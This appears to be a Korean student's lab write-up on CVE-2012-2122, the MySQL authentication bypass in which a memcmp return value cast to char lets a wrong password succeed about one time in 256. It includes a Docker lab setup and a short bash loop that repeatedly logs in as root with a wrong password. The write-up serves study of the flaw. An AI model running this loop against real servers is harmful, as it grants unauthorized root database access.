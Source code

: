 # CVE-2012-2122

| whs 3기 유수빈

## 개요
1. **CVE 번호**: CVE-2012-2122
2. **취약점 명칭**: MySQL Authentication Bypass
3. **설명**: MySQL 서버에서 패스워드 인증 비교 시 잘못된 조건으로 인해, 낮은 확률로 비밀번호가 틀리더라도 root 계정으로 로그인 가능합니다.
4. **영향 버전**: MySQL 5.5.17 이하

## 요약
**CVE-2012-2122**는 MySQL과 MariaDB의 특정 버전에서 발견돤 **인증 우회 취약점**입니다.

- 취약한 MySQL 버전에서는 사용자의 비밀번호를 검증할 때, 내부적으로 'memcmp()'함수를 사용하여 해시값을 비교합니다.
- 해당 함수는 '-128 ~ 127' 범위의 값을 반환하지만, 해당 값을 'char'로 잘못 처리하면, '0'으로 인식하는 경우가 발생할 수 있습니다.
- 이를 통해 **1/256의 확률로 비밀번호가 틀려도 인증에 성공**하게 됩니다.
- 공격자는 이를 이용해 **임의의 비밀번호를 반복 시도**함으로써, **root 계정으로의 인증 우회를 달성하였습니다.

## 실습 환경 구성
- Docker 기반으로 구성
- 'docker-compose.yaml'을 통해 컨테이너 실행
- 컨테이너 내부에서 bash 반복문을 통해 인증 우회 취약점 재현

## 코드 
```bash
for i in {1..1000}; do
  echo "Try $i"
  mysql -u root --password=wrongpass -e "select user();" 2>/dev/null && echo "[+] Login Success!" && break
done
```

## 실행 결과
![cve 환경 구축](https://github.com/user-attachments/assets/cc1e767c-e72d-4d28-a655-38e3afbcba99)

운이 좋게 Try1에서 root 계정 로그인에 성공하였다.
